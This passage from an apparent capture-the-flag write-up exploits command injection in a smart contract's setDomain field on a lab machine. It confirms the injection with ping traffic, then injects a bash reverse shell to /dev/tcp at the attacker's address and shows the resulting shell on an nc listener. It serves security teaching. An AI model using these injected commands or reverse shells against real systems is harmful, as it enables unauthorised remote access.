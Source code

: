 So something is reading the domain and then executing something like
`ping -c 1 [input]`. The immediate question is, can I inject into that?

I tried this:



    >>> contract.functions.setDomain('10.10.14.8; ping -c 2 10.10.14.8').transact()
    HexBytes('0x4bf0a6e9c57c72f6ab13b34ad019bea228744d730a016ea1c0ad9eece33fc73c')



If my theory from above is right, I'd get 3 pings, because it would
execute `ping -c 1 10.10.14.8; ping -c 2 10.10.14.8`. If I only get one
ping, the injection didn't work.

I get 3 pings:



    15:11:06.716663 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1715, seq 1, length 64
    15:11:06.716682 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1715, seq 1, length 64
    15:11:06.751937 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 1, length 64
    15:11:06.751981 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 1, length 64
    15:11:07.754427 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 2, length 64
    15:11:07.754446 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 2, length 64



### Shell

Knowing I can inject, I can run a reverse shell as well:



    >>> contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
    HexBytes('0x4a1d4a839ecdeb140fc1ecdbdf5270ef915d3a04100c82365124abbacc1fb70d')



And I get a shell on my listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.142.
    Ncat: Connection from 10.10.10.142:34244.
    bash: cannot set terminal process group (1461): Inappropriate ioctl for device
    bash: no job control in this shell
    administrator@chainsaw:/opt/WeaponizedPing$ id
    uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)



### Script It

Putting that all together, I'll write a Python script to get a shell. It
will read the contract files over FTP, then use `Web3` to connect to the
contract and issues the shell injection. After a short sleep, it will
set the domain back to "google.com".
